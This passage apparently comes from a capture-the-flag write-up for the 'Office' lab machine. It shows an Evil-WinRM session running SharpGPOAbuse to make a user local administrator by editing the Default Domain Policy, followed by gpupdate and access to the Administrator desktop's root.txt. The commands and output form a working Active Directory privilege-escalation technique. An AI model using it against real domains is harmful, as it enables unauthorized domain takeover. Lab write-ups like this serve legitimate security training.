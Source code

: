 ```console
*Evil-WinRM* PS C:\Programdata> .\SharpGPOAbuse.exe --AddLocalADmin --UserAccount HHogan --GPOName "Default Domain Policy"
[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\office.htb\SysVol\office.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```
This doesn’t take effect until the GPO refreshes, but we are allowed to run `gpupdate /force`. Afterwards we need to exit our current WinRM session and authenticate again for the changes to take effect. We can then see ourselves in the `BUILTIN\Administrators` group and can access the Administrator desktop.

```console
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         7/16/2024  12:58 PM             34 root.txt
```
